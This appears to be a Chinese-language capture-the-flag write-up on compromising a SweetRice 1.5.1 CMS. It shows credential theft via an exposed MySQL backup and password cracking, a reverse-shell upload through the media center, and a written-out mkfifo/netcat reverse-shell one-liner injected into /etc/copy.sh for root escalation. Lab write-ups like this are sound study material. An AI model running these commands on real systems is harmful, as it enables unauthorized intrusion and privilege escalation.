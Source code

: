 ## 查找能利用的漏洞

找到一个漏洞可以查看到数据库的漏洞

```
SweetRice 1.5.1 - Backup Disclosure

http://localhost/inc/mysql_backup
```

![image.png](https://s2.loli.net/2025/04/24/K7CQzYnUmJF9T4q.png)

在我们找到的/content中 在sql文件中找到了账户和密码 密码得去(解密)[https://crackstation.net/]一下

![image.png](https://s2.loli.net/2025/05/05/357twrl1YvVJdoi.png)


## 依旧信息收集

媒体中心有上传文件的地方 直接上传反弹shell 但php传不进去 只能改格式

![image.png](https://s2.loli.net/2025/05/05/MD7bdpAzEY2oj5W.png)

![image.png](https://s2.loli.net/2025/05/05/G8euDsr21XbwHnx.png)

## 提权
发现文件夹有个mysql的l登录文件 是账户和密码  登进去看看有什么信息吗

![image.png](https://s2.loli.net/2025/05/05/iCbVy5LqR1WnsYM.png)

无信息

![image.png](https://s2.loli.net/2025/05/05/yWqU5CP7znBxZl8.png)

发现一个脚本


那就想办法利用这个脚本

![image.png](https://s2.loli.net/2025/05/05/dyHFfrSEZlVtOa2.png)


弄巧成拙了 这样爆了参数问题的错

![image.png](https://s2.loli.net/2025/05/05/kNaXE85Wf2oIPTy.png)

就把原本的代码刚好就是反弹shell 把ip改成我们自己的就可以

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.17.40.203 6666 > /tmp/f" > /etc/copy.sh
```

![image.png](https://s2.loli.net/2025/05/05/dLJ9P2BqgWCEF7K.png)
